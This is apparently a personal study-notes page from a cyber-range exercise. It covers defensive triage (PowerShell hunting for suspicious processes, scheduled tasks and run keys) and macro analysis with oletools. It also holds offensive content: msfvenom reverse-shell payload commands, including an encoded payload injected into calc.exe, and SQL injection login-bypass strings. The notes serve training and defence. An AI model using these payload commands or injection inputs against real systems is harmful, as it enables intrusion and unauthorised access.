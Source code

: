 <!--
Title: ASD Live Fire Exchange Programme (GitHub Markdown Version)
Author: Simon .I
Version: 2025.03.30
Description: GitHub-compatible Markdown (GHM) version using supported HTML like <details> and <table>.
-->

<!-- ASD Programme Title -->
<h1 align="center"><strong style="font-size: 4rem; letter-spacing: 4px; color: navy;">ASD</strong></h1>

<p><strong>These are my personal notes from the <em>ASD Live Fire Cyberbitrange</em> event. This document is not provided by or affiliated with the <em>Australian Signals Directorate (ASD)</em> or <em>CyberbitRange</em>.</strong></p>

<details>
<summary><strong>🌐 LFE 1 Bangalore - Malicious Detection</strong></summary>

### 🔎 Scenario: Command and Control (C2) Detection

- Gather logs using Event Viewer
- Identify malware via IOCs
- Remove malware and kill process
- Investigate network activity (C2)
- Block source and set firewall rules
- Remove persistence (startup/registry/scheduled tasks)

### 🧱 Step 1: Process Monitoring
```powershell
taskmgr

tasklist | findstr /i "powershell cmd python wscript cscript mshta wmic rundll32 regsvr32 schtasks bitsadmin"

taskkill /F /PID <PID>

eventvwr
```

### 🗓 Step 2: Scheduled Tasks
```powershell
taskschd

Get-ScheduledTask | ? {
  $_.TaskPath -notmatch "^\\Microsoft\\Windows" -and 
  ($_.Actions | % Execute | Out-String) -match "cmd|powershell|python|wscript|cscript|.bat|.vbs|.js|.py|mshta|rundll32|schtasks|bitsadmin"
}

Unregister-ScheduledTask -TaskName "<SuspiciousTaskName>" -Confirm:$false
```

### 🧼 Step 3: Registry Startup
```powershell
regedit

reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

### 🌐 Step 4: Network Communications
```powershell
netstat -bano
```

### 📁 Step 5: File Investigation
```powershell
Get-ChildItem -Path C:\Users -Include *.xlsx,*.docx,*.pdf -File -Recurse -ErrorAction SilentlyContinue
```

</details>

---

<details>
<summary><strong>🌋 LFE 2 Jakarta - Multi-Stage Malware & Analysis</strong></summary>

### 🔎 Scenario: Multi-Stage Malware with Data Exfiltration

- Analyse a malicious Office macro embedded in a phishing document
- Trace execution of an obfuscated VB script delivering a reverse shell payload
- Investigate payload generated using `msfvenom` to understand its capabilities
- Identify encrypted files and inspect use of OpenSSL for local encryption
- Monitor network activity and identify exfiltration using Wireshark
- Discover and exploit an SQL injection vulnerability for unauthorised data access

### 🔎 Macro Analysis with `oletools`

`oletools` is a Python-based toolset for analysing Microsoft OLE2 files (e.g. Office documents). It helps detect malicious macros, extract metadata, and uncover indicators of compromise.

#### 🔧 Common Tools & Flags:
```bash
olevba -a suspicious.doc
olevba -c suspicious.doc
olevba --decode suspicious.doc
olevba --json suspicious.doc

mraptor suspicious.doc
mraptor --json suspicious.doc

olemeta suspicious.doc
olemeta --json suspicious.doc

oleid suspicious.doc
oleid --json suspicious.doc

oleobj -e -d output suspicious.doc
rtfobj -d output suspicious.rtf
```

### 💣 Payload Crafting with `msfvenom`

```bash
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> -o <output> [-e <encoder>] [-i <iterations>] [-x <template.exe>]
```

#### 🧾 Flag Breakdown:
- `-p`: Payload type
- `LHOST`: Attacker IP
- `LPORT`: Listener port
- `-f`: Output format (e.g. exe, elf, psh)
- `-o`: Output file
- `-e`: Encoder
- `-i`: Iterations
- `-x`: Inject into another executable

#### 🧰 Examples:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 -f exe -o payload.exe

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 -f exe -x C:\Windows\System32\calc.exe -o mal.exe -e x86/shikata_ga_nai -i 3
```

### 🔐 File Encryption with OpenSSL
```bash
openssl.exe enc -aes-256-cbc -base64 -in "C:\Users\cyberuser\Desktop\Files\Pass.txt" -out "C:\Users\cyberuser\Desktop\Pass.enc" -K 000001234567890ABCDEFABCDEF -iv 0
```

### 📊 Wireshark Filters
```wireshark
frame.number == 1437
frame.number >= 1434 and frame.number <= 1440
tcp.analysis.retransmission
frame.number == 1437 and tcp.analysis.retransmission
```

### 🔢 SQL Injection Basics

**SQL injection** was found in a web-based login form hosted on the compromised environment.

#### Sample Inputs:
```text
Username: ' OR 1=1;--
Password: anything

Username: admin' --
Password: anything

Username: ' OR 'a'='a';--
Password: anything

Username: " OR ""="
Password: anything

Username: ' OR 1=1 LIMIT 1;--
Password: doesn't matter

Username: admin')--
Password: test

Username: ' UNION SELECT null, version();--
Password: anything
```

#### Underlying Query Logic:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password';
```

Injecting:
```sql
SELECT * FROM users WHERE username = '' OR 1=1;--' AND password = '';
```
</details>
